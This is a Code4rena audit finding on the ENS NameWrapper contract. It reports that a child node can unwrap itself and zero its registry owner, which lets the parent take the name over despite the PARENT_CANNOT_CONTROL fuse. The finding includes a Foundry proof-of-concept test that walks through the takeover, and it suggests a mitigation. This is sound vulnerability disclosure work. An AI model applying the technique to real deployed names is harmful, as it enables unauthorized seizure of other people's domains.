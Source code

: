 ## Tags

- bug
- 2 (Med Risk)
- selected for report
- sponsor confirmed
- M-03

# [NameWrapper: Wrapped to Unregistered to ignore `PARENT_CANNOT_CONTROL`](https://github.com/code-423n4/2022-11-ens-findings/issues/8) 

# Lines of code

https://github.com/code-423n4/2022-11-ens/blob/2b0491fee2944f5543e862b1e5d223c9a3701554/contracts/wrapper/NameWrapper.sol#L512
https://github.com/code-423n4/2022-11-ens/blob/2b0491fee2944f5543e862b1e5d223c9a3701554/contracts/wrapper/NameWrapper.sol#L550


# Vulnerability details

## Impact

- owner of a wrapped node without `CANNOT_UNWRAP` fuse can unwrap and set the `ens.owner(node)` to zero to be an unregistered state
- if it happens, even if the node has `PARENT_CANNOT_CONTROL` fuse, the parent of the node can change the `NameWrappwer.owner` of the node

## Proof of Concept

Below is a snippet of the proof of concept. The whole code can be found in [this gist](https://gist.github.com/zzzitron/7670730176e35d7b2322bc1f4b9737f0#file-2022-11-ens-versus-poc-t-sol). And how to run test is in the comment in the gist.


In the proof of concept below, the parent node is `vitalik.eth` and the child node is `sub1.vitalik.eth`.
The parent node has `PARENT_CANNOT_CONTROL`, `IS_DOT_ETH` and `CANNOT_UNWRAP` and the child node has `PARENT_CANNOT_CONTROL`.

The child node unwraps itself and set the owner on `ens` contract to the `address(0)` or `address(ens)`, which will make the child node to unregistered state even before expiry of the node.

Since technically the child node is unregistered, the parent can now 'create' the 'unregistered' node `sub1.vitalik.eth` by simply calling `setSubnodeRecord`. By doing so, the parent can take control over the child node, even though the `PARENT_CANNOT_CONTROL` fuse was set and it was before expiry.

```solidity
    function testM4WrappedToUnregistered() public {
        string memory parent = 'vitalik.eth';
        string memory sub1_full = 'sub1.vitalik.eth';
        string memory sub1 = 'sub1';
        (, bytes32 parent_node) = parent.dnsEncodeName();
        (bytes memory sub1_dnsname, bytes32 sub1_node) = sub1_full.dnsEncodeName();

        // wrap parent and lock
        vm.prank(user1);
        registrar.setApprovalForAll(address(nameWrapper), true);
        vm.prank(user1);
        nameWrapper.wrapETH2LD('vitalik', user1, uint16(CANNOT_UNWRAP), address(0));
        // checks
        (address owner, uint32 fuses, uint64 expiry) = nameWrapper.getData(uint256(parent_node));
        assertEq(owner, user1);
        assertEq(fuses, PARENT_CANNOT_CONTROL | IS_DOT_ETH | CANNOT_UNWRAP);
        assertEq(expiry, 2038123728);

        // subnode
        vm.prank(user1);
        nameWrapper.setSubnodeOwner(parent_node, 'sub1', user2, PARENT_CANNOT_CONTROL, 1700000000);
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, user2);
        assertEq(fuses, PARENT_CANNOT_CONTROL);
        assertEq(expiry, 1700000000);

        // parent cannot set record on the sub1
        vm.expectRevert(abi.encodeWithSelector(OperationProhibited.selector, sub1_node));
        vm.prank(user1);
        nameWrapper.setSubnodeRecord(parent_node, sub1, user1, address(1), 10, 0, 0);

        // parent: pcc cu
        // child: pcc

        // unwrap sub and set the ens owner to zero -> now parent can change owner
        vm.prank(user2);
        nameWrapper.unwrap(parent_node, _hashLabel(sub1), address(ens));
        assertEq(ens.owner(sub1_node), address(0));

        // sub node has PCC but parent can set owner, resolve and ttl
        vm.prank(user1);
        nameWrapper.setSubnodeRecord(parent_node, sub1, address(246), address(12345), 111111, 0, 0);
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, address(246));
        assertEq(fuses, PARENT_CANNOT_CONTROL);
        assertEq(expiry, 1700000000);
        assertEq(ens.resolver(sub1_node), address(12345));
        assertEq(ens.ttl(sub1_node), 111111);

        // can change fuse as the new owner of sub1
        vm.prank(address(246));
        nameWrapper.setFuses(sub1_node, uint16(CANNOT_UNWRAP));
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, address(246));
        assertEq(fuses, PARENT_CANNOT_CONTROL | CANNOT_UNWRAP);
        assertEq(expiry, 1700000000);
        assertEq(ens.resolver(sub1_node), address(12345));
        assertEq(ens.ttl(sub1_node), 111111);
    }
```

It is unlikely that the child node will set the owner of the ENS Registry to zero. But hypothetically, the owner of the child node wanted to "burn" the subnode thinking that no one can use it until the expiry. In that case the owner of the parent node can just take over the child node.


## Tools Used

foundry

## Recommended Mitigation Steps

Unclear, but consider using `ENS.recordExists` instead of checking the `ENS.owner`.


<!-- zzzitron M04 -->

